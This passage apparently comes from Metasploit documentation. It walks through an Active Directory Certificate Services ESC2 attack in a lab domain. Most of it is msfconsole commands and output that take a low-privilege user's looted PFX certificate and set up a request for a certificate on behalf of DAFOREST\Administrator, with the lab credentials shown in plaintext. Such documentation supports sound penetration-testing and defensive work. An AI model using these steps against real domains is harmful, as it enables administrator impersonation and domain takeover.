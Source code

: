 ```msf

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we need to use the PFX file that we got to request another certificate to authenticate on behalf of another user. We will use the `PFX` option to specify the PFX file, and the `ON_BEHALF_OF` setting to specify the user we would like to authenticate on behalf of. Finally we will change the certificate template to another certificate template that we are able to enroll in. The default `User` certificate should work here since it allows enrollment by any authenticated domain user.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normalpass                   no        The password for the specified username
   SMBUser        normaluser                   no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
PFX => /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

```